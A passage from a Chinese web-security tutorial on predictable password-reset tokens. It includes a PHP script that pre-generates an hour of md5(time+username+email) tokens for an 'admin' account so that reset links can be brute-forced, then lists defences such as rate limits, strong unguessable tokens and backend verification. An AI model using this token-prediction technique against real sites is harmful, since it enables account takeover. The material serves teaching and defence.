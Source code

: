 我们在提交 key 的之前 生成一分钟或者一个小时以内的 token 用脚本去访问每一个链接，假如存在的 token 就可以修改密码

```php
<?php
function create_pass($username,$email){
    $token=md5(time().$username.$email);
    return $token;
    }
    for($i=1;$i<=3600;$i++){
    $timex= create_pass('admin','moon@moonsec.com');
    write_file($timex."\n");
    echo $i."\r\n";
    sleep(1);
}
function write_file($c){
	fwrite(fopen("time.txt", "a+"),$c);
}
?>
```

根据以上原理，程序生成一小时的 token

防御方案：

1. 验证码爆破的，从验证码有效期和请求次数进行限制；
2. token 验证之类的，不要直接返回给用户；
3. 修改加密算法和加密内容，一定要是强加密，也要做到增加猜解难度或密文不可猜解；
4. 用户身份验证一定要在后端实现；
5. 在最后一步修改密码的动作时，一定要校验帐号是否通过了验证、短信与手机号是否对应、发送短信与已校验帐号不要使用同一个 session 名称；
6. 非常重要的一点：上线前一定要经过安全测试！ ！
